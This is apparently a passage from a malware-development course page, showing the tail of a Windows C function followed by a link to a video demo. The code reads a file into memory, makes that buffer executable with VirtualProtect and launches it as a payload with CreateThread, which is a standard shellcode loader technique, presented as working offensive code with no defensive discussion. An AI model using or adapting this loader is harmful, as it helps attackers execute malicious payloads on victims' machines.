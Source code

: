 ```c
	if (!ReadFile(hFile, pBufferData, dwBufferSize, &dwNumberOfBytesRead, NULL) || dwNumberOfBytesRead != dwBufferSize) {
		printf("[!] ReadFile Failed With Error : %d \n", GetLastError());
		printf("[!] Bytes Read: %d of %d\n", dwNumberOfBytesRead, dwBufferSize);
		goto _EndOfFunc;
	}

	if (!VirtualProtect(pBufferData, dwBufferSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("[!] VirtualProtect Failed With Error : %d \n", GetLastError());
		goto _EndOfFunc;
	}

	printf("\t> Running Payload Via Thread ");
	DWORD	dwThreadId	= 0x00;
	HANDLE	hThread		= CreateThread(NULL, NULL, pBufferData, NULL, NULL, &dwThreadId);
	printf("[ %d ] ... \n", dwThreadId);
	if (hThread) {
		WaitForSingleObject(hThread, INFINITE);
	}

	bResults = TRUE;

_EndOfFunc:
	if (hFile != INVALID_HANDLE_VALUE)
		CloseHandle(hFile);
	return bResults;
}
```

The demo is shown below.

[![Video-Demo](https://maldevacademy.s3.amazonaws.com/new/update-three/etw-4-demo-cover.png)](https://maldevacademy.s3.amazonaws.com/new/update-three/etw-4-demo.mp4)
